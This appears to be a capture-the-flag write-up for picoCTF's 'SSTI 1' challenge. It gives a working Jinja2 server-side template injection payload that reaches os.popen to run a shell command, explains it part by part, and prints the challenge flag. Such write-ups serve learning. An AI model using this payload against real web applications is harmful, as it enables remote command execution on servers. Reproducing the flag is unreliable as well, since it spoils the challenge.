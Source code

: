 # 🛡️ SSTI 1 – Server-Side Template Injection (Easy)

---

## 🌐 Overview
- **Challenge Type**: Server-Side Template Engine Exploitation  
- **Difficulty**: 🟢 Easy  
- **Topic**: Server-Side Template Injection (SSTI) using Jinja2

---

## 📝 Description
1. I made a cool website where you can announce **whatever you want**! Try it out!
2. I heard templating is a **cool and modular** way to build web apps. Let’s see how that might go wrong…

---

## 🧪 Approach

### 🔐 SSTI Payload
Paste the following payload into the input field on the website:

```jinja2
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("cat flag").read() }}
Always treat user input as untrusted in templating contexts
```
| Part                           | Explanation                                                                                 |
| ------------------------------ | ------------------------------------------------------------------------------------------- |
| `self`                         | Refers to the current template instance                                                     |
| `_TemplateReference__context`  | Name-mangled attribute that exposes internal context data                                   |
| `.cycler`                      | A built-in Jinja2 object used for alternating values (used here to reach deeper attributes) |
| `.__init__.__globals__`        | Accesses the global namespace of the `cycler`’s constructor                                 |
| `.os.popen("cat flag").read()` | Executes a shell command to read the contents of the `flag` file                            |


### Flag format
    - picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}
    - Don't add this flag.


